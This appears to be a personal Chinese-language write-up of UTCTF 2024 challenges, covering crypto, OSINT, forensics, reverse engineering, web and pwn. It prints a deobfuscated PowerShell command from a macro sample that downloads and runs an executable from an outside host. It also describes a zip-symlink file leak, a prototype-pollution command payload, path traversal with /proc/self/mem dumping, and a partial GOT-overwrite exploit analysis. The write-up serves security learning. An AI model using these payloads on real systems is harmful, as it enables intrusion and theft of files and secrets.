



# UTCTF 2024 个人题解

Lysithea 10583 45th

德克萨斯州立大学的两日校赛，题量不大但是难度在校赛里算是中等偏上的，misc以外各个分类基本都至少一道1000大题。我也一如既往的垃圾题杀手，会做的题大家基本都会，被动态分干到从20名掉到40名（第一名20000分，基本上all clear了），1000分大题基本没有能做出来的。

第一天基本垃圾题全清了，第二天专攻rev的In the Dark和pwn的Webserver，有点分散精力了，如果全力打webserver说不定能打下来。

<!-- truncate -->

## Crypto
Crypto分类整体难度是偏低的，除了最后一个偏逆向的1000分题(`forgery`)看不懂

### RSA-256
基本是签到题。RSA-256也就是用到大整数分解的质数大小是256位的，这个大小的质数是可以暴力分解，或者说查表的（[factordb.com](https://factordb.com)）

flag是`utflag{just_send_plaintext}`确实这种级别的加密不如直接给明文好了

### numbers go brrr （2问）
这题感觉在考伪随机但感觉考的不深入。

作者自己实现了一个伪随机数，但种子范围在`randint(0, 100000)`。之后用这个伪随机生成密钥，对信息进行AES加密。

第一问你可以无限次对自己的信息加密获得密文，最后服务器会返回flag的密文。事实上只用一段明文就可以爆破出随机数种子，然后就知道加密flag时使用的key了（注意两个key不一样，第二个key是第一个key的后续）

第二问前面一样可以无限次获得任意信息密文，之后要猜key。但是同样一次明文就可以爆出seed，然后key就知道了。这样的猜一共有三次，之后给flag。

> 这个flag表明出题人也放弃治疗了：`utflag{ok_you_are_either_really_lucky_or_you_solved_it_as_intended_yay}`


### bits and pieces
非常单纯的RSA题，给了三对N, e, c对，N很大，e=65537，看似无懈可击。

事实上第二组和第三组的共享公因数（`gmpy2.gcd`），因而可以直接分解。第一组没怎么看出来，但放到yafu里一跑就出来了，实际上两个因数大小十分接近（N本身非常接近一个整数的平方），所以也很容易分解。

### Cryptordle
有点意思的一个题，相当于wordle。题目会根据一个字典（大概率是有意义的英文单词）生成一个五个字母的单词，然后我们有6次机会猜中。每次的反馈诸位字符差模31的乘积。
```python
response = 1
for x in range(5):
    a = ord(guess[x]) - ord('a')
    b = ord(answer[x]) - ord('a')
    response = (response * (a-b)) % 31
print(response)
```

这个题我用的方法是概率成功的（所以不是预期解，至少是预期解的弱化版），我用了一个弱化的策略，构造五组固定输入，通过5次反馈唯一解算答案（之所以是弱化，因为后四次可以通过之前的结果优化输入，这个应该可以优化成100%的方法）。假设答案为`x1 x2 x3 x4 x5`，这里每个数是0-25的整数

- 第一轮给`aaaaa`，获得的`O=x1*x2*x3*x4*x5`
- 第二轮给`baaaa`，获得`A=(x1-1)*x2*x3*x4*x5`，则`O*inv(O-A)`即`x1`，其中`inv`是模31意义下的逆。
- 第三四五轮给`abaaa`，`aabaa`, `aaaba`，基于同样原理可以算出`x2,x3,x4`
- `x5`的值可以直接`O * inv(x1*x2*x3*x4)`

这个方法成功条件是每一步都可以逆，求逆的子串不能被31整除（或者说，不能有a）。我认为这个题应该是可以通过一种构造保证无论要猜什么都能成功的。我中间也想过这个题是不是能随机输入+Z3解算，不过好像计算量还是太大Z3搞不出来，看来还是需要精妙构造。

> 我现在又想了想，是不是要求被猜的答案里没有a就能猜出来？如果这样那用q这样的非常见字母来作为基底可能更容易。

据说主办方为了堵概率性的非预期中间才把题目改成需要猜中3次的，笑死。

### simple signature
有点不知所云的题，题目信息只说了根据RSA实现了个签名机制，然后就只给了一个nc。连上去后，是这样的信息：
```
Welcome to the signature generator!
This service generates signatures for nonnegative integer messages.
Today's RSA parameters are:
n = (一个很大的整数)
e = 65537
Enter a message as an integer (enter 0 to stop):
```
然后我们可以无限次输入整数（虽然prompt说只能输入非负数，但是是可以输入的），似乎会进行RSA加密返回C。当输入0后，题目要求我们提供一组没有输入过的数字+签名。

一开始我没什么思路，直到我随机fuzz出来输入-1, 1, -1之后，给出的值一定是1。在RSA加密这种平均数字长度好几行的加密里出现1这种密文，一定是不正常的，这基本只代表一种情况，就是明文是1。

虽然到这一步就能拿flag了(`utflag{a1m05t_t3xtb00k_3x3rc153}`)，但我们仍然搞不懂这到底是什么算法。另外`1, -1`给出的一定是`1, 0`，也是可以拿的

## Forensics
取证里有一些挺有想法的题，但是我弱取证。共8个题做出4个。

### Contracts
一眼GG签到题。PDF里藏了一张图片，Acrobat打开后，编辑模式拖出来，人眼OCR即可

### A Very Professional Website
给了一个网站，基本啥都没有。我也不知道我怎么就想到看一眼`/.git`的，结果报403了。这个可是非常大的收获，说明可以直接访问git仓库，dump出所有内容（我用的`git-dumper`）

看一眼历史记录里没有异常，所以还是把所有objects全部打印出来比较好。这里记录一下命令：
```bash
# use this to print all objects in git repo, including ref log
git rev-list --objects -g --no-walk --all
# or alternatively
git cat-file --batch-check --batch-all-objects
# use this to print
git cat-file -p 1d2961fb02140ea819212ac081b0291c323fd056
# in git ref log?
# utflag{gitR3fl0g}
```

### OSINT （2/3问）
包含三问的一个有故事线的开盒题，挺有意思的。
#### OSINT1 (泄露文档)
给了一个名为KAKUU公司的门户主页，要求我们寻找这家公司泄露的文档（公司当然是假的，不是同名的日本公司）

一开始我搞错方向，在网页上找了半天，还扒出了他们用的模板是Bootstrap Arsha。不过这毕竟不是Web题，出题人也放出hint说这个题显然不应该在公司主页上找泄露的文档。

后来我注意到主页上，公司人员介绍里，提到名为Cole Minerton（后面简称CM）的员工运营着公司的社交媒体，于是我开始google/duckduckgo找这个人。之后我在几个地方找到了他。
- [Youtube](https://www.youtube.com/@ColeMinerton)上有一个号，关注很少（说明是个人号不是专业视频号），发布了一个游戏的速通视频，只有一个人互动，互动那个人好像是真的是来互动的。主页简介有个discord群聊，但这个群聊里竟然有200多人，有点反常。
- [twitter](https://twitter.com/ColeMinerton)（X）有号，整个账号只有一条推，在2月25日左右说自己不在这里活动了，有[linktree](https://linktr.ee/coleminerton)链接，还指向上面说的youtube，一个reddit（好像没什么信息），和一个名为Mastodon的社交平台，类似facebook。
- [Mastodon](https://mastodon.social/@coleminerton)上记录基本也是2月25日左右开始，有大概7条动态，其中一条提到了Kakuu Company，说明找对位置了。

其实到这里，基本确定那个discord是题目范围内的了，可惜我这时突发社恐恶疾，迟迟不敢点邀请链接，下了好久决心才进去，结果我是没有权限发言的，只有一段2月25日-3月1日左右的群聊记录，涉及CM和他两个朋友（也是Mastodon和他互动的那两个人）。

可以在聊天记录里看到CM和朋友吹逼时把自己签的合同给发出来了（底下还有人接龙💀的反应，我看了我也有权限接龙也就接了一下），flag是明文在其中的。


#### OSINT2 (城市检索)
第二问要我们找出这个人住在哪个州哪个城市（以城市，州缩写，zip code格式提交）

到这一步时需要仔细捋一下discord群聊里的有效信息，看看哪一步是包含了位置相关的信息。
- CM在2月26日左右去Angel Fire滑雪了，这一步没有住址信息
- CM提到自己的公司是远程居家办公，所以门户站的公司地址（纽约）和问题无关了
- CM和朋友说打算周末（3月2日）去Telluride（Telluride在科罗拉多）旅游，期间可以得知CM和朋友没住在一个城市，也都不在Telluride。
- 3月2日，CM在出发之前还在加班，并且在02:49说自己刚刚加班完要出发，还要7小时才能到达Telluride。

- 与此同时，大约在02:48，CM在Mastodon发了一张在加油站加油的照片


由此我们可以确定，此时CM还在自己家所在的城市，这个加油站所在的城市就是答案。这张照片虽然本身不含位置元数据，但是可以得到这些信息：
- 中间电线杆上有New Mexico Lottery的广告，说明是新墨西哥州（新墨西哥州和科罗拉多南北相邻，确实是合理的自驾游去处，7个小时车程能到的地方）。
- 背景有路牌Cimarron，查了一下这个是Raton City, Colfax County的一个镇子。于是把这三个地名都试一遍，Raton是对的。

第三问是要找CM的IP地址，暂时没思路，没做。

### Gibberish（未做出）
> 题干：`Help! I'm trying to spy on my lover but they're not typing in any language I'm familiar with!`，然后给了一段USB流量包，明示了是某种键盘。

> hint:
> - I made this on a qwerty keyboard but I would recommend buying something more specialized if you were to do this all day. You'll know you're on the right track when you find something that rhymes with a word in the challenge description.
> - It's not a cipher.
> - I used a 6-key rollover keyboard. You might want to double check some of your words.

流量包包含一些USB descriptor的报文，能看出来键盘是Razer Huntsman V2 Tenkeyless。HID键盘报文一般是8字节有效信息，前两个字节是功能键状态（ctrl, shift等），后六个字节是输入缓冲区。因为这种键盘可以同时对6个按键作出反应，所以这种键盘被称为6 key rollover (6KRO)。和很多键盘报文只有第三字节有记录不同，这个报文是会出现成股成股出现，一般是后一个报文在前一个报文基础上增加或者减少一个字符（偶尔也会同时增减，或者减少两个字符之类的），这应该表示快速打字时，几个键被同时按下。但是，我并不能确定计算机识别是按键出现的顺序，还是消失的顺序（我猜出现的顺序更合理，按说这应该属于一个缓冲区，处理完后把按键从缓冲区去除）。按键除了a-z, 0-9，还有相当的特殊符号、退格等

这个题最精髓的点在于，如果按[一般HID文档](https://d1.amobbs.com/bbs_upload782111/files_47/ourdev_692986N5FAHU.pdf)（没找到更好的更官方的文档）中，字节与键位映射表编写还原程序，会发现出来的是乱码，正如题目标题所说。我其实一上来（hint出来之前）就怀疑这个是非标准键盘，比如我听说德语键盘就是QZERTY的。但很可惜的是，Wikipedia上提到的大部分非标准键位都只是QWERTY的小变体，要么就是自己的文字（西里尔字母、非拉丁字符等），少数几个高度打乱的键位布局也无法让我这里的乱码变成有意义的英文，所以就没再尝试。未知键盘布局+未知的6KRO处理顺序，这应该是比较困难的点。

### Study Music（未做出）
这个就是那个油管10h循环猫猫视频的音频隐写题（链接：[https://youtu.be/1Cbaa6dO2Yk](https://youtu.be/1Cbaa6dO2Yk)）。Audition看半天没有任何思路，MATLAB光载入就要十几分钟消耗12G内存。估计做自相关后能看出点什么，不过算了。

## Reverse Engineering
算上crypto里那个rev题，一共六个题，做出一半（包括一个beginner题）。

没做出来的`In the Dark`是一个迷宫题，只有一个巨大的主函数并且控制流平坦化，我暂时没有趁手工具就拿angr跑了跑，没跑出来（以后得想想办法怎么做这种去平坦化的题）。`Accelerated Hell`是一个涉及Rust, CUDA的逆向。

### Fruit Deals
Excel VBA宏病毒逆向。说实话这个题我最担心的不是逆向看不懂，而是如何在不触发宏的情况下看宏的内容。

给了一个可疑的xlsm，题干也说虽然本身不是恶意程序，但也最好不要直接打开。我当作zip解压后，确实看到了`xl/vbaProject.bin`一个VBA二进制文件，搜了一下没有现成逆向工具，感觉还是用Excel本身来查看宏代码比较好，只要注意别不小心运行了（最好是放虚拟机里弄，以免翻车）。
默认Excel是不会开启宏的，需要手动开启。要查看宏，需要在【选项-自定义功能区-开发工具】打开开发工具选项卡，并在那里找到VBA的编辑器。进去后是能看到两段VBA script，其中一段有很明显的混淆特征，大意基本是当某个单元格等于某个base64乱码时，给字符串加一个子串，最后调用Shell执行这个串。看起来没有其他危险行为。

于是，最终我在把Shell注释掉后，加了断点运行（不得不说VBA的调试器是真难用）。运行到这行时，可以看出他本来执行的是这样的代码：
```powershell
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```
题干中说，flag是要下载的文件名，这里很明显就是`$CNTA.exe`了（$env:public我本地调试是空的）

### PES-128
不知道是不是非预期。这个题给了一个二进制的加密程序，和一个被加密的flag密文hex。测试后发现：
- 第一个字符是不会加密的，就是明文（flag第一个hex就是u）
- 只改最后一个字符，不会影响前面的加密结果，比较像流加密

那就结束了，这个加密弱逐位爆破，只要从前面开始遍历最后一位，只要给出和加密flag相同的结果就说明我们猜对了，可以猜下一问了。
flag是`utflag{i_got_the_need_for_amdahls_law}`，我猜作者预期一个类似侧信道/时间攻击的解法。这算是侧信道吗？我不好说，如果改成只判断是否等于flag而不是直接给出flag完整密文让我们自己测试，那应该是比较标准的侧信道。

## Web
Web题除了第二天放出的rust+wasm沙箱题，都做了。有点难度但是在我能处理的范围内。
### Schrödinger
这个题考的zip里藏软链接泄露文件，也是我接触CTF以来，第一个学会的Web知识点（GeekGame1）

`zip`中包含`--symlinks`时，可以把软链接本身打包进zip包里。在服务器解压之后，这个软链接还保持原来的指向，就会指向服务器上文件的内容。如果服务端有解压后把内容回显的操作，就会导致泄露任意文件。

试一下`/etc/passwd`可以泄露，说明是可以打通的。然后我分别拿到了`/proc/self/cmdline`和`/proc/self/environ`，可以知道在运行的服务端进程是`python3 src/main.py`（不过奇怪的是我不管怎么样都访问不到这个文件，可能是`os.remove`了或者权限是`--x`），环境变量里可以看到`HOME=/home/copenhagen`，然后尝试读取`/home/copenhagen/flag.txt`，成功读到了。不过没拿到源码不太甘心。

### Easy Mergers v0.1
关键词，Merger，nodejs服务端，一眼原型链污染。

原型链是javascript的面向对象继承机制的一部分。简单来说，JS里的对象，在找不到一个属性时，会查找它的原型，也就是`__proto__`指向的对象是否有这个属性，直到`__proto__`为空。这对应了一般面向对象语言的继承机制，`__proto__`就是父类属性。所有的对象最终总能回到到Object的原型中，也就是说，控制了`Object.__proto__`，就控制了所有对象。如果通过`Object.__proto__.A=B`这样的赋值，就能给所有的对象赋予`A`这个属性。这种赋值的高危操作一般出现在合并两个对象时，`A[key1][key2] = B[key1][value]`，如果能控制`key1=="__proto__"`和`key2, value`，那有可能控制原型链。

这个题的目标很明确，在`merger.js`里，有一个`var secret = {}`，如果`secret`包含一个`cmd`属性，就会通过`child_process`模块执行shell命令。主页里包括两个功能，一个是为一个对象列表增加一个包含任意字段的对象，另一个是可以提供一个新的对象，合并到一个已经添加的对象里，其中包括这样的一个高危操作：
```javascript
if (!(orig[data.attributes[k]] === undefined) &&
     isObject(orig[data.attributes[k]]) &&
      isObject(data.values[k])) {
    for (const key in data.values[k]) {
        orig[data.attributes[k]][key] = data.values[k][key];
    }
}
```
因此我们的策略是：首先上传一个对象：`{"__proto__": {"cmd": "cat flag.txt"}}`，然后让它和它自己合并。这样就会触发`orig["__proto__"]["cmd"] = "cat flag.txt"`。

另外注意，网页端表单上传时，`value`不能是对象。但因为服务端接收的是json对象，所以通过requests等直接传json对象可以绕过限制。

flag: `utflag{p0lluted_b4ckdoorz_and_m0r3}`

### Home on the Range
这个题给了一个文件服务器，能看目录和文件，能看到分发的是`www`目录下的文件（猜测是`/var/www`）。结合标题和描述，猜测`Range`这个header应该是有效的，这个可以让服务器提供文件的部分。

接下来因为这个是文件服务器，首先想到的是能不能做路径穿越。requests和urllib3会默认把`..`给neutralize掉，用burp是可以的，访问`/../..`果然看到了根目录。为了后续的过程，我们给requests上一个补丁，拦截请求把`../../`塞到报文里

```python
# https://stackoverflow.com/questions/23496750/how-to-prevent-python-requests-from-percent-encoding-my-urls
class NoQuotedCommasSession(requests.Session):
    def send(self, *a, **kw):
        # a[0] is prepared request
        a[0].url = a[0].url.replace('$', "../../")
        return requests.Session.send(self, *a, **kw)
```

很容易在根目录找到源码`server.py`，下载下来，发现两个信息
- 程序开头把flag读到变量里，把`flag.txt`删掉了，只在程序退出时会写回文件。这个变量在程序中全程没有访问。删除文件时文件也同时被关闭了，所以不能在`proc`文件系统找到。
- `Range`是实现方式是`seek`

所以策略就很清楚了。我们知道`/proc/self/mem`保存着进程的内存视图，并且通过`seek`或者命令行程序`dd`，结合程序内偏移是可以直接dump出内存的。当然，因为内存段不是处处都可读，所以直接cat是会报permission denied的。对应的内存偏移可以看`/proc/self/maps`

不过似乎因为所有玩家共享同一个服务端实例，这个python进程的堆特别高，而且堆的大小还在随着时间不断上涨（内存溢出警告），如果不能快速定位目标堆块是很麻烦的。当然，这里面相当多的堆都是属于第三方库的。Python的局部变量应该处于`libpython3.x.so`上方的一个无名堆块（权限应该是`rw-`）。不过这个块本身也有`7b2e0f2da000-7b2e0f6cd000`这么大的范围，一次全部dump怕把服务器搞崩（如果让服务器500了就什么数据都拿不到了），所以最好以页（0x1000）为单位一点一点dump。

> 顺便这个题我一开始犯了一个巨大的错，我以为是`utctf{`开头，但其实这个比赛的flag全是`utflag{`开头的，所以我怎么也搜不到

flag: `utflag{do_u_want_a_piece_of_me}`

## Misc
不像很多比赛把取证、隐写、开源信息题甚至沙盒、简单的crypto都放misc里，这个题的misc是真正意义上的misc，真的不知道放哪个分类合适。
### CCV
这个题的背景是信用卡校验码（PAN CVV）算法。

通过这个题我也是才知道了，信用卡校验是基于DES的标准算法，需要两个密钥（加起来16字节），校验码生成算法我是看的[这篇博客](https://medium.com/@ruimin.yangnl/payment-101-series-card-verification-code-cvc-card-verification-value-cvv-explained-5f7205ae2b67)的介绍。（考虑到这篇博客要登录才能看，我这里简述一下）

校验码会根据PAN号码，expire date和service code（3位，参考[维基百科](https://en.wikipedia.org/wiki/Digital_card)）按如下算法得到三位CVV:
- 把PAN,date,service code连起来，补0到32位数字，看成两个16位hex（即两个8bytes块，记为A, B），而两个密钥记为`X`, `Y`
- 计算：C = E(X, D(Y, E(A, xor(E(X, A), B))))
  - 其中E(X,A)表示以X位密钥加密A，D(X,A)表示用X为密钥解密A，xor(A,B)表示AB逐位异或。这里加密解密均是DES-64算法
- 把C的hex中所有数字0-9提取出来，再把所有字母a-f提取出来放在数字后面，再把字母按十六进制减去10（变为0-5的数字）
- 最终的一串数字前三位为校验码。

根据题目描述的密钥，这个[算法](ccv/test_DES.py)能够校验服务端发来的所有PAN card，一共要校验336个这样的码。似乎除了前8轮外，后面结果都是固定的，答案的01串可以被解码为ASCII码。

flag: `utflag{hope_none_of_those_were_yours_lol}`

## Binary Exploitation
这届pwn题只有两个，但都是1000分重量级大题（第二题更是直接可用于生产环境，只是因为偏硬件我没碰）

### Handwritten Webserver (未做出)

> 这个题我在赛后两天做出来了，不是堆题，应该说确实有点难度，而且比较新鲜。

这个题是一个C语言手搓的HTTP文件服务器。服务器上可以下载到源码、二进制程序、Makefile，但是如果想读`flag.txt`文件时，会提示403 Forbidden，会返回headers内容。

源码中漏洞点非常明显，这个题居然用了两次`gets`来读取用户输入到栈上。但是，虽然大量使用堆存储中间字符串，却几乎看不到堆溢出（所有malloc都是申请strlen+1的，很规范），另外题目中realloc大量使用，但没有多少free，堆利用会比较困难。最关键的是，这个程序没有用ret返回而是直接exit，因此虽然有如此逆天的栈溢出我们却无法直接打ROP。

通过`.comments`段，可以得知程序由Ubuntu 20.04 GCC 9.4.0编译，因此猜测服务端libc是2.31版本（待验证），所以本地先用patchelf配置好环境。

#### 程序逻辑
首先checksec，partial RELRO, 无canary，无PIE，有NX。

- 首先会gets读取首行到栈的缓冲区，用take_until_char读取到第一个、第二个空格，再用take_until_newline读取剩余内容，分别作为method, path, version
  - version必须是`HTTP/1.1`或者`HTTP/1.0`否则longjmp
- 然后会进入一个循环读取headers，每行都是gets，take_until_char读取到冒号，然后take_until_newline读取剩余内容。直到take_until_char发现一个空行。
  - 之后会把header信息（包含两个字符串指针的结构体）放进headers数组里：

```c
struct Header {
    char *name;
    char *value;
};

for (;;) {
    char *header_line = gets(buf);
    if (header_line == NULL) longjmp(err, 1);
    if (strlen(header_line) == 0 || strcmp(header_line, "\r") == 0) break; // "\n" or "\r\n"; end of query

    int index = 0;
    char *name = take_until_char(header_line, &index, ':');
    char *value = take_until_newline(header_line, &index);
    name = malloc_str(name);
    value = malloc_str(value);

    if (header_count + 1 > header_cap) {
        int new_cap = header_cap < 4 ? 4 : header_cap * 2;
        headers = realloc(headers, sizeof(struct Header) * new_cap);
        header_cap = new_cap;
    }
    struct Header h;
    h.name = name;
    h.value = value;
    headers[header_count] = h;
    header_count += 1;

    if (strcasecmp(h.name, "content-length") == 0) {
        char* end = NULL;
        int value = strtol(h.value, &end, 10);
        if (end != h.value) {
            content_length = value;
        }
    }
}

```

- 当path本身包含(strstr)`flag.txt`字符串时，会进入`debug_handler`分支，不会读取文件而会返回headers
- 其他情况，会进入`fileserv_handler`分支，首先对`path`调用`resolve_path`函数。`resolve_path`本身假设path必须以`/`开头，然后把它转换为一个完整的路径（`./`开头，neutralize掉`..`和`.`），之后打开文件，看文件是目录还是一般文件进行后续工作。

```c
handler_fn handler;
    
if (strstr(path, "flag.txt") != NULL) {
    handler = debug_handler;
} else {
    handler = fileserv_handler;
}
handler(method, path, version, header_count, headers, data, err);
```

- 程序用了longjmp来异常处理，上下文保存在栈上。
  - 在读取headers时没有在结尾多加一个换行会稳定触发longjmp。

```c
char *header_line = gets(buf);
if (header_line == NULL) longjmp(err, 1);
```

- 最后再强调一遍，main函数直接调用exit退出了，没有ret。

#### 漏洞分析
这个题的漏洞很明显但很难利用。gets毫无疑问是非常简单粗暴的栈溢出，但这个题main函数没有返回而是直接调用exit，所以不能ROP。另外因为输出机会只有一次，不可能leak出任何信息（堆栈地址，fs段）。此外涉及堆的使用相当规范，没有发现任何溢出。

详细分析一下涉及gets的部分：

- 当读取`gets`不包含`take_until_char`需要的字符时（首行的空格，header的冒号），会把gets本身的EOF处的空字节作为分隔符，继续后面处理。这样可以在处理header时，让value为栈上原本内容从而泄露栈上内容（但下一次运行各种地址偏移又不一样了）
- `gets`可以覆盖到setjmp设置的上下文（重要的是rsp, rbp, rip，但三个寄存器被`fs:[0x30]`加密了，也不能off-by-one），所以如果知道`fs:[0x30]`，可以控制`setjmp`的目标地址，通过手动触发longjmp的方法控制执行流。

- `gets`可以覆盖到栈上存储`headers`指针的堆地址，`header_cap`和`header_count`。headers部分是我们自由度最大的部分，不限输入次数且有`headers[header_count] = h`这样的操作，其中前两个变量我们可以通过栈溢出控制。
  - 可以off-by-null，比如可以有1/16概率成功对tcache进行`realloc`。
  - 不知道堆基址，可以把它覆盖为null，通过realloc重置headers（同时丢失前几个headers的指针），如果进debug_handler应该会出事，但是进fileserv_handler不会影响。
  - 已知堆基址，或直接把headers覆盖为0，也可以同时改后面两个变量

- `gets`会影响到method, path, version。但是因为对path检查在后面，所以这里提前改了没用。

#### 我的解法
核心在于headers部分处理，控制`header_count + 1 <= header_cap`，不要进realloc分支，我们会获得向任意地址写入两个malloc出来的堆地址的能力。特别地，因为这个题没有PIE，所以不需要leak任何东西。

目标很明确，是在`path`能被解析出`./flag.txt`这个文件的前提下，让`handler`调用的是`fileserv_handler`，`debug_handler`没有任何用处。而判断是否使用fileserv_handler的条件是`strstr(path, "flag.txt") == NULL`。虽然正常来说我们gets干扰不到这里的判断，但是如果能把`strstr`的GOT表改掉，让这里返回NULL，就可以进入`fileserv_handler`分支，达成攻击。

程序的GOT表部分：
```log
[0x4050d0] fdopendir@GLIBC_2.4 -> 0x4011a0 ◂— endbr64
[0x4050d8] exit@GLIBC_2.2.5 -> 0x4011b0 ◂— endbr64
[0x4050e0] strstr@GLIBC_2.2.5 -> 0x4011c0 ◂— endbr64
```
可以看到`strstr`处于GOT表末尾。这对我们是有利的，因为我们虽然能向任意地址写，但写入的内容被malloc出来的两个堆地址，是高度不可控的。因此我们只能一次利用写入内容的高位或低位改写GOT表的部分内容，这不可避免会写到其他GOT表内容，好在相邻的函数都是不会被调用的。

最容易想到的思路是，从0x4050d1写入header，把第二个malloc地址的高位（0）给off-by-null进GOT表最低位，构成0x401100。但是这样会报段错误。

另一个思路就是利用低位。这时我们再回想一下我们写入的到底是什么？

```c
int index = 0;
char *name = take_until_char(header_line, &index, ':');
char *value = take_until_newline(header_line, &index);
name = malloc_str(name);
value = malloc_str(value);

...

struct Header h;
h.name = name;
h.value = value;
headers[header_count] = h;
```
是malloc出来的堆地址，是堆块地址+0x10。因为第一个堆块（也就是tcache）是页对齐的（最后三位是000），所有malloc得到的地址，低位（第一个字节）都是`X0`。并且因为每次循环固定就这两次`malloc`，大小可以由我们输入的header控制，所以我们事实上可以控制写入的第一字节。而GOT表项在初始化前，是指向PLT表的，内容从`0x401000`开始，每项占用`0x10`的范围。因此，至少对于`0x401000-0x4010f0`这些表项，每个字节都可以被我们写入。因此我们只需要让从`0x4050e0, 0x4050e1,...,0x4050e7`错位8轮，每轮写入一个最低位，就可以把GOT表改写为目标值了。

满足`0x4010X0`格式的PLT表项：
```log
pwndbg> x/16gx 0x405000
0x405000:       0x0000000000404e20      0x00007f230b9d6190
0x405010:       0x00007f230b9bfbc0      0x0000000000401030
0x405020 <strcasecmp@got.plt>:  0x0000000000401040      0x0000000000401050
0x405030 <strncmp@got.plt>:     0x0000000000401060      0x00007f230b93ce40
0x405040 <puts@got.plt>:        0x0000000000401080      0x0000000000401090
0x405050 <strlen@got.plt>:      0x00007f230b93b900      0x00000000004010b0
0x405060 <close@got.plt>:       0x00000000004010c0      0x00000000004010d0
0x405070 <_setjmp@got.plt>:     0x00007f230b7f5c80      0x00007f230b936df0
pwndbg> x/16gx 0x405008
0x405008:       0x00007f230b9d6190      0x00007f230b9bfbc0
0x405018 <free@got.plt>:        0x0000000000401030      0x0000000000401040
0x405028 <strncpy@got.plt>:     0x0000000000401050      0x0000000000401060
0x405038 <strcpy@got.plt>:      0x00007f230b93ce40      0x0000000000401080
0x405048 <fread@got.plt>:       0x0000000000401090      0x00007f230b93b900
0x405058 <printf@got.plt>:      0x00000000004010b0      0x00000000004010c0
0x405068 <closedir@got.plt>:    0x00000000004010d0      0x00007f230b7f5c80
